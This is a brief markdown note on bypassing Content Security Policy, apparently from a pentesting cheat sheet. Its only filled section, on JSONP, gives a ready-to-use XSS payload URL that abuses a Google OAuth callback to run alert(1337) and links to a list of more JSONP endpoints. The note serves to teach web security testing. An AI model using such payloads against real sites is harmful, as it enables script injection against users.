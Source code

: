 # Bypassing CSP
## Dangling markup
## JSONP
JSONP is a technic used to bypass origin policy imposed by browser on script an js execution. If there is some wildcard domain (ex: http://*.google.com) in `script-src`, we can use JSONP from these domain to execute js despite CSP.

**#Google**

`https://vulnerable-site.com?input=<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`

Find more examples on [https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

